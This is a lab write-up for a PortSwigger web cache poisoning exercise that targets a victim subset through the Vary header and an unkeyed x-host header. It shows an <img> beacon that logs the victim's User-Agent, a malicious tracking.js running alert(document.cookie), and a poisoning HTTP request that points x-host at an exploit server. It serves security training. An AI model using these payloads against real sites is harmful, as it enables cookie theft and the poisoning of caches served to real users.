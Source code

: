 # [Lab: Targeted web cache poisoning using an unknown header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header)

## Lab

This lab is vulnerable to web cache poisoning. A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.

## Vary header

The rudimentary way that the `Vary` header is often used can also provide attackers with a helping hand. The `Vary` header specifies a list of additional headers that should be treated as part of the cache key even if they are normally unkeyed. It is commonly used to specify that the `User-Agent` header is keyed, for example, so that if the mobile version of a website is cached, this won't be served to non-mobile users by mistake.

This information can also be used to construct a multi-step attack to target a specific subset of users. For example, if the attacker knows that the `User-Agent` header is part of the cache key, by first identifying the user agent of the intended victims, they could tailor the attack so that only users with that user agent are affected. Alternatively, they could work out which user agent was most commonly used to access the site, and tailor the attack to affect the maximum number of users that way.

## Scan

Param Miner extension results: `x-host` is an unkeyed header.

## Solutions

upload a comment to any post: `<img src="https://exploit-id.exploit-server.net/log">`, observe the log to know the bot's user-agent.

craft response at exploit-server:

- file: `/resources/js/tracking.js`
- body: `alert(document.cookie)`

cache poisoning:

```http
GET / HTTP/1.1
Host: id.web-security-academy.net
User-Agent: observed-user-agent-of-bot
x-host: exploit-id.exploit-server.net
```
